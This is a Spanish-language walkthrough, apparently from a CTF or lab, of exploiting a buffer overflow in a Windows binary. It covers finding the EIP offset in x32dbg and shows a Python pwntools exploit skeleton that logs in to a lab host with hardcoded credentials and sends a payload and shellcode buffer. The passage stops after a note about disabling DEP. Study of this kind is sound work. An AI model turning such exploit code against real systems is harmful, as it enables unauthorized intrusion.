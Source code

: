 ![https://imgur.com/6EilS5h.png](https://imgur.com/6EilS5h.png)

Para aprovecharme de esto lo explote primero en local, inicie `x32dbg` y el binario.

![image](https://user-images.githubusercontent.com/69093629/158053117-41a5e855-0822-4cdf-8c4c-500c2f376866.png)

Primero me cree una cadena especial con `pattern_create` para encontrar los *bytes* antes de sobrescribir *EIP*.

En el *exploit* comencé definiendo la librería `pwn` para poder interactuar con el binario, y `sys` para definir los argumentos que hay que pasarle, también defino una clase llamada *Exploit* con un inicializador al que le he pasado tres variables, que serian el usuario, la contraseña y el nombre, y finalmente defino un método que es por donde va a empezar el flujo del *exploit*.

```python
#!/usr/bin/python3

from pwn import *
from sys import argv

class Exploit():

	def __init__(self, user, password, name):

		self.__user = user
		self.__password = password
		self.__name = name

	def socket_reuse(self):
  
		r = remote("192.168.1.145", argv[1])

		r.sendlineafter(b"Username: ",self.__user)
		r.sendlineafter(b"Password: ",self.__password)
		r.sendlineafter(b"FullName:",self.__name)	
		r.sendlineafter(b"Input Your Code:",payload)
		sleep(1)
		r.sendline(buf)

autopwn = Exploit(b'alfiansyah', b'K3r4j@@nM4j@pAh!T', 'Vickry Alfiansyah')

def main():
	autopwn.socket_reuse()

if __name__ == '__main__':
	main()
```

Comencé comprobando que el *exploit* funcionaba bien.

![https://imgur.com/DjhCekr.png](https://imgur.com/DjhCekr.png)

Lo segundo que hice fue desactivar *DEP*, ya que de lo contrario no podría ejecutar instrucciones desde la pila, esto se puede hacer desde opciones de rendimiento.
